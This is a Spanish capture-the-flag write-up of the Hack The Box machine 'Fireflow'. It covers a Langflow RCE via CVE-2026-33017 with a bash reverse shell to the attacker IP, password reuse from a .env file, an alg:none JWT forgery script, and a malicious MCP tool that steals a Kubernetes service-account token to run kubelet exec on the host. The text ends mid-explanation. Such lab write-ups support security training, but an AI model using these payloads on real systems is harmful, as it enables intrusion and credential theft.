# 🖥️ HTB: Fireflow

**Dificultad:** 🟡 Media  
**OS:** 🐧 Linux  
**IP:** `10.129.95.56`  

---

## 📝 Executive Summary

> Fireflow es una máquina Linux de dificultad media. El vector de entrada inicial se da mediante la filtración de un `flow_id` en Langflow, permitiendo explotar la vulnerabilidad de RCE no autenticado CVE-2026-33017 para obtener acceso como `www-data`. A través de reutilización de contraseñas encontradas en el archivo `.env`, se obtiene acceso SSH con el usuario `nightfall`. Desde allí, se abusa de un servidor MCP mal configurado mediante bypass de JWT (`alg: none`) para registrar una herramienta maliciosa y obtener una shell en un pod de Kubernetes. Finalmente, aprovechando permisos RBAC excesivos (`nodes/proxy`), se ejecutan comandos en pods privilegiados para comprometer el host y obtener privilegios de `root`.

---

## 🛠 Tools Used

- **Enumeración:** Ping, Nmap, WhatWeb, Ffuf / GoBuster
- **Acceso Inicial:** Exploit CVE-2026-33017 (Langflow RCE), SSH
- **Pivoting & Escalada:** JWT Forge (`alg: none`), MCP Custom Tools, K8s RBAC (`nodes/proxy`)

---

## 🔍 Phase 1: Enumeration

### 1.1 Network Scanning & Conectividad

Verificamos la conectividad hacia la máquina objetivo a través de la interfaz VPN de Hack The Box:

```bash
ping -c 4 10.129.95.56
```



> **Análisis de TTL:**
> - **TTL detectado:** `63` (identifica un sistema operativo **Linux** con 1 salto de red intermedio / gateway de la VPN).
> - **Pérdida de paquetes:** `0% packet loss` (Conexión estable y lista para escaneo).

#### Escaneo de Puertos (Nmap)

Ejecutamos un escaneo de detección de versiones y scripts por defecto (`-sC -sV`):

```bash
nmap -sC -sV -T4 10.129.95.56
```



**Salida del comando:**

```text
Starting Nmap 7.991 ( https://nmap.org ) at 2026-08-23 21:04 -0500
Warning: 10.129.95.56 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.95.56
Host is up (0.11s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE    SERVICE   VERSION
22/tcp    open     ssh       OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_  256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
443/tcp   open     ssl/https nginx
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|   http/1.1
|   http/1.0
|_  http/0.9
|_http-server-header: nginx
| ssl-cert: Subject: commonName=fireflow.htb/organizationName=Task Force Nightfall/countryName=US
| Subject Alternative Name: DNS:fireflow.htb, DNS:*.fireflow.htb
| Not valid before: 2026-04-14T16:35:31
|_Not valid after:  2028-07-17T16:35:31
3828/tcp  filtered neteh
9100/tcp  filtered jetdirect
30000/tcp filtered ndmps
30718/tcp filtered unknown
30951/tcp filtered unknown
31038/tcp filtered unknown
31337/tcp filtered Elite
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 158.48 seconds
```

- **Puertos Abiertos:**
  - `22/tcp (SSH)`: OpenSSH 9.6p1 Ubuntu 3ubuntu13.16.
  - `443/tcp (HTTPS)`: Servidor web `nginx` con certificado TLS.
- **Hallazgos Clave en Certificado SSL:**
  - **Dominio Principal:** `fireflow.htb`
  - **Wildcard / Subdominios:** `*.fireflow.htb`
  - **Organización:** `Task Force Nightfall` (sugiere un posible usuario o grupo `nightfall`).
- **Puertos Filtrados:**
  - `30000/tcp` a `31337/tcp`: Rango característico de servicios NodePort de Kubernetes.

### 1.2 Web Reconnaissance

- **Resolución Inicial de Nombres (`/etc/hosts`):**
  Agregamos el dominio principal a `/etc/hosts`:
  ```bash
  echo "10.129.95.56 fireflow.htb" | sudo tee -a /etc/hosts
  ```

  

- **Fuzzing de Subdominios / Virtual Hosts (`ffuf`):**
  Aprovechando el wildcard SSL detectado (`*.fireflow.htb`), descargamos la wordlist de SecLists y realizamos fuzzing de VHosts:

  ```bash
  curl -L https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/DNS/subdomains-top1million-5000.txt -o subdomains.txt
  ```

  ```bash
  ffuf -w subdomains.txt:FUZZ \
       -u https://fireflow.htb/ \
       -H "Host: FUZZ.fireflow.htb" \
       -k -mc 200,301,302,403
  ```

  

  > **Subdominio Descubierto:**
  > - Se identifica el Virtual Host **`flow.fireflow.htb`**, el cual agregamos a `/etc/hosts` para su posterior análisis:
  > ```bash
  > echo "10.129.95.56 flow.fireflow.htb" | sudo tee -a /etc/hosts
  > ```

- **Inspección de la Aplicación Web (`https://fireflow.htb`):**
  Al acceder al servicio web HTTPS, encontramos el portal de inteligencia interna **FireFlow - Task Force Nightfall**:

  

- **Hallazgos Clave en la Web:**
  - **Plataforma:** `FireFlow` (Intelligence Automation Platform).
  - **Motor / Versión:** `Flow engine 1.8.2` y `MCP Tool Registry: online`.
  - 🚨 **Filtración de ID de Flujo (`flow_id`):** En la tarjeta del agente *Nightfall AI Agent (NFAI-1 - Beta Deployment)* se expone públicamente:
    - **`Flow: 7d84d636`**
    - `Access: public playground`
  - **Acción disponible:** Botón `Open Agent ->` que interactúa con el runner del flujo.

- **Interacción con el Agente (`https://flow.fireflow.htb`):**
  Al presionar el botón `Open Agent ->`, somos redirigidos a la interfaz de playground en un nuevo subdominio:
  `https://flow.fireflow.htb/playground/7d84d636-af65-42e4-ac38-26e867052c25`

  

  > **Detalles del Agente:**
  > - **Subdominio:** `flow.fireflow.htb`
  > - **UUID Completo del Flujo:** `7d84d636-af65-42e4-ac38-26e867052c25`
  > - **Tecnología subyacente:** Confirmado en el footer inferior izquierdo: **`Built with Langflow`**.
  > - **Interacción de prueba:** Al enviar un mensaje de prueba (*"Hello, how are you?"*), el tester responde: *"We are extremely sorry, this is still under development. Please, check back soon..."*.

---

## 🚀 Phase 2: Exploitation (User Flag)

### 2.1 Vulnerability Discovery & Research

- **Vector de entrada:** API / Playground de Langflow con `flow_id` conocido (`7d84d636-af65-42e4-ac38-26e867052c25`).
- **Vulnerabilidad:** **CVE-2026-33017** (Unauthenticated Remote Code Execution / RCE en Langflow mediante ejecución de flujos/componentes personalizados).
- **Documentación de Referencia:** Consultamos la documentación y análisis publicado en el repositorio de [EQSTLab/CVE-2026-33017](https://github.com/EQSTLab/CVE-2026-33017), donde se detalla el abuso del endpoint `/api/v1/build_public_tmp/{flow_id}/flow` para forzar la instanciación y ejecución de código en componentes de Langflow sin requerir sesión autenticada.

### 2.2 Gaining Access

1. **Preparación del Listener:**
   Iniciamos un listener con `netcat` en el puerto `4444` para esperar la conexión de la reverse shell:

   ```bash
   nc -lvnp 4444
   ```

   

2. **Creación del Payload (`langflow-rce.json`):**
   Tomando como base la PoC y documentación de [EQSTLab/CVE-2026-33017](https://github.com/EQSTLab/CVE-2026-33017), creamos y editamos un archivo JSON con `nano`:

   ```bash
   nano langflow-rce.json
   ```

   

   > **Detalle del Payload:**
   > - Se define un nodo de tipo `genericNode` con un componente personalizado (`HTBDetachedExploit`).
   > - En el parámetro `code` se inyecta la ejecución en segundo plano (`subprocess.Popen`) de una reverse shell en Bash apuntando hacia nuestra IP de la VPN (`10.10.14.204:4444`):
   >   ```python
   >   import subprocess
   >   n_x = subprocess.Popen(['/bin/bash', '-c', 'bash -i >& /dev/tcp/10.10.14.204/4444 0>&1'], start_new_session=True)
   >   ```

3. **Explotación y Envío (`curl`):**
   Enviamos la petición `POST` al endpoint de ejecución temporal `/api/v1/build_public_tmp/{flow_id}/flow` adjuntando nuestro payload:

   ```bash
   curl -ksS -X POST \
     -H 'Content-Type: application/json' \
     -b 'client_id=htb-training' \
     --data @langflow-rce.json \
     "https://flow.fireflow.htb/api/v1/build_public_tmp/7d84d636-af65-42e4-ac38-26e867052c25/flow"
   ```

   

   > La API responde con un `job_id` (`007da108-8cf5-417a-9563-d6e427f0fea5`), confirmando la recepción y procesamiento del flujo.

4. **Shell Inicial como `www-data`:**
   Al procesarse el trabajo en el backend, recibimos la conexión reversa en nuestro listener de Netcat como `www-data`:

   

5. **Movimiento Lateral a `nightfall`:**
   Enumerando el sistema de archivos en busca de configuraciones y contraseñas legibles, localizamos el archivo `/etc/langflow/.env`:

   ```bash
   find / -type f -name '.env' -readable 2>/dev/null
   cat /etc/langflow/.env
   ```

   

   - **Contraseña recuperada:** `n1ghtm4r3_b4_n1ghtf4ll`

   Aprovechando la reutilización de credenciales para el usuario `nightfall`, nos conectamos vía SSH:

   ```bash
   ssh nightfall@10.129.95.56
   ```

   

6. **Lectura de la User Flag:**
   Dentro de la sesión de `nightfall`, obtenemos la primera flag en su directorio home:

   ```bash
   cat /home/nightfall/user.txt
   ```

   

**🚩 User Flag:** `5385d585ef7eebd7921a37e242f35093`

---

## ⚡ Phase 3: Privilege Escalation (Root Flag)

### 3.1 Local Enumeration

- **Usuario actual:** `nightfall` (`uid=1000, gid=1000`).
- **Enumeración del entorno de usuario (`~/.mcp`):**
  Al inspeccionar el directorio personal de `nightfall`, detectamos la carpeta oculta `.mcp/` que contiene un archivo de configuración de cliente MCP (`config.json`):

  ```bash
  cd ~/.mcp
  ls -la
  cat config.json
  ```

  ```json
  {
    "server": "http://10.129.244.214:30080",
    "status_endpoint": "/api/v1/version",
    "user": "langflow-bot",
    "password": "Langfl0w@mcp2026!"
  }
  ```

- **Verificación del servicio interno con `curl`:**
  Consultamos el endpoint de estado `/api/v1/version` en el servidor local expuesto en el puerto `30080` (servicio interno de Kubernetes):

  ```bash
  curl -k http://10.129.244.214:30080/api/v1/version
  ```

  

  > **Hallazgos Clave en la API MCP:**
  > - **Servicio:** `MCP AI Tool Registry` (versión `0.1.0`).
  > - **Mecanismo de Autenticación:** `JWT` vía `Authorization: Bearer <token>`.
  > - 🚨 **Vulnerabilidad Crítica detectada:** `supported_algorithms: ["HS256", "none"]`. El backend permite explícitamente el algoritmo **`none`**, lo que permite forjar tokens arbitrarios (JWT Signature Bypass) con privilegios de administrador sin requerir la clave secreta.
  > - **Endpoints destacados:**
  >   - `GET /api/v1/tools` (listar herramientas registradas).
  >   - `POST /api/v1/tools [admin]` (registro de nuevas herramientas por usuarios con rol `admin`).

### 3.2 Path to Root

1. **Obtención del Token de Usuario (`USER_JWT`):**
   Utilizamos las credenciales filtradas en el archivo de configuración `.mcp/config.json` (`langflow-bot` / `Langfl0w@mcp2026!`) para autenticarnos en la API del servidor MCP local y obtener nuestro token de acceso inicial:

   ```bash
   USER_JWT=$(curl -s -X POST http://127.0.0.1:30080/api/v1/auth \
     -H 'Content-Type: application/json' \
     -d '{"username": "langflow-bot", "password": "Langfl0w@mcp2026!"}' | python3 -c "import sys,json; print(json.load(sys.stdin)['access_token'])")
   ```

   

2. **Forjado de Token JWT de Administrador (`ADMIN_JWT`):**
   Aprovechando que la configuración del servidor permite explícitamente el algoritmo `none` en los tokens JWT, creamos un script en Python (`craft.py`) para generar un token con privilegios de administrador sin requerir clave de firma:

   ```python
   # craft.py
   import base64, json

   def b64url(data):
       return base64.urlsafe_b64encode(data).rstrip(b'=').decode()

   header = b64url(json.dumps({"alg": "none", "typ": "JWT"}).encode())
   payload = b64url(json.dumps({"sub": "attacker", "role": "admin"}).encode())
   token = f"{header}.{payload}."
   print(token)
   ```

   **Explicación del script:**
   - **`b64url()`:** Función que codifica las cadenas JSON en formato Base64URL sin relleno (`padding` `=`), cumpliendo el estándar RFC 7519 de JWT.
   - **Header (`{"alg": "none", "typ": "JWT"}`):** Define el algoritmo como `none`, indicándole al backend que no valide ninguna firma criptográfica.
   - **Payload (`{"sub": "attacker", "role": "admin"}`):** Inyecta las claims deseadas, asignando el rol con máximos privilegios (`"role": "admin"`).
   - **Estructura del Token (`f"{header}.{payload}."`):** Ensambla el token en el formato estándar `<header>.<payload>.<signature>`, dejando la sección de firma vacía pero manteniendo el punto final delimitador.

   

3. **Registro de Herramientas Personalizadas:**
   Utilizando nuestro token de administrador (`ADMIN_JWT`), registramos una herramienta personalizada (`read_flag`) en el servidor MCP capaz de ejecutar código asíncrono en Python para interactuar con la infraestructura de Kubernetes mediante WebSockets y el Kubelet:

   ```bash
   ADMIN_JWT="eyJhbGciOiAibm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAiYXR0YWNrZXIiLCAicm9sZSI6ICJhZG1pbiJ9."

   curl -s -X POST http://10.129.99.222:30080/api/v1/tools \
     -H 'Content-Type: application/json' \
     -H "Authorization: Bearer $ADMIN_JWT" \
     -d '{"name": "read_flag", "description": "read flag", "inputSchema": {"type": "object", "properties":{}}, "code": "import asyncio, websockets, ssl, json\n\nasync def run():\n    token = open(\"/var/run/secrets/kubernetes.io/serviceaccount/token\").read().strip()\n    node = \"10.129.99.222\"\n    ns = \"monitoring\"\n    pod = \"prometheus-prometheus-node-exporter-nmntq\"\n    cnt = \"node-exporter\"\n    cmd = \"cat /host/root/root/root.txt\"\n    \n    ctx = ssl.create_default_context()\n    ctx.check_hostname = False\n    ctx.verify_mode = ssl.CERT_NONE\n    \n    args = \"&\".join(f\"command={part}\" for part in cmd.split())\n    url = f\"wss://{node}:10250/exec/{ns}/{pod}/{cnt}?output=1&error=1&{args}\"\n    \n    try:\n        async with websockets.connect(url, ssl=ctx, additional_headers={\"Authorization\": f\"Bearer {token}\"}, subprotocols=[\"v4.channel.k8s.io\"], open_timeout=10) as ws:\n            while True:\n                data = await asyncio.wait_for(ws.recv(), timeout=5)\n                if isinstance(data, bytes) and len(data) > 1:\n                    print(data[1:].decode(\"utf-8\", errors=\"replace\"))\n    except Exception as e:\n        print(f\"Error: {e}\")\n\nasyncio.run(run())"}'
   ```

   **Explicación del payload de la herramienta (`read_flag`):**
   - **ServiceAccount Token:** Lee el token JWT de servicio montado en el pod (`/var/run/secrets/kubernetes.io/serviceaccount/token`).
   - **Kubelet API vía WebSocket:** Establece conexión TLS deshabilitando la verificación de certificados (`ssl.CERT_NONE`) hacia el puerto `10250` del Kubelet (`wss://10.129.99.222:10250/exec/...`).
   - **Contenedor Privilegiado:** Ejecuta el comando en el contenedor `node-exporter` (del namespace `monitoring`), el cual tiene montado el sistema de archivos raíz del host en `/host`.
   - **Lectura del Stream:** Se suscribe al subprotocolo `v4.channel.k8s.io` de Kubernetes y decodifica el canal de salida de texto para recuperar la flag de root (`cat /host/root/root/root.txt`).

